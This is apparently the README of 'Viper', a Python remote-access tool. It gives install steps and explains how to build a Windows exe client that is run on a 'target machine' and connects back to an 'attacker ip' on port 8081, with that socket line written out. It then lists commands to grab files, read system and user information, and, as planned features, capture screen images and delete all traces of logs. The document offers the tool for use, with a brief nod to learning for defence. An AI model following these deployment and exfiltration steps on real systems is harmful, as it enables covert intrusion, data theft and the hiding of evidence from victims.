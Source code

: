 

***VIPER***


Viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information quickly. 
The viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensive actions.

Viper also has team server capabilities *I am still working out bugs but it works great currently with command line

This program was created as a basic function to reach out and grab things fast! Powered by twisted python. 

I have recently added a twisted webserver and chat server for teamdevops


viper has been tested on kali 2.0 x86

***Instalation instructions***

The installer.sh should install everything for you

***Install commands***

```
navigate to vipers root directory
$>chmod +x installer.sh
$>./installer.sh

```

The installer will back up your ~/.bashrc file and This should do the tricks and get you up and running. 

You will need to verify the installer adds the python path to the end of the ~/.bashrc

Quick pythonpath help commands. This should be done for you while doing instalation. I still have to confirm this again

```
echo export PYTHONPATH="" >> ~/.bashrc
source ~/.bashrc

```

***libraries installed and current requirements check install.sh for mods***

```
python-twisted +16.6;
PyCrypto;
pyOpenSSl;
Zope interface;
python 2.7;
python-2.7.13.msi;
pyinstaller-3.1.1;
future-0.16.0;
wine;
winetricks;

```

***Usage:***

***to start the viper console:***

Navigate into the payloads and change the ip address and port number inside the client

$$> chmod +x start-teamserver.sh
$$> ./start-teamserver.sh

***usage:***

start the handler first and then start the client on the target machine

viper main commands:

```
[*] handler ========= > "starts the viper server and waits for a call back" 
[*] buildfang ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 
[*] chatserver ========= > will start your chat server on port 8123. You will have to open a new terminal to connect
[*] stopchat ========= > will tear down the chat server when needed
[*] startweb ========= > starts the webserver
[*] stopweb ========= > stops the webserver
```

***build fang pre-instructions***

Inside viper client modify these two lines with your local ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('address you want to connect back to, attacker ip', 8081))


***viper connection commands:***

use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

```
[*] grab*<filename> ========= > grabs the file and saves it to the local desktop as .txt";
[*] getenv       ========= >  prints the system information";
[*] getuid       ========= > Get the user level access of the shell";
[*] SystemInfo   ========= > Get Fingerprint of the system"; todo
[*] capture      ========= > take images of the host machine "; todo
[*] Cover        ========= > Delete all traces of logs"; todo
```

```
Please help Contribute!

1. Fork it!
2. Create your feature branch: git checkout -b my-new-feature
3. Commit your changes: git commit -am 'Add some feature'
4. Push to the branch: git push origin my-new-feature
5. Submit a Pull Request
```
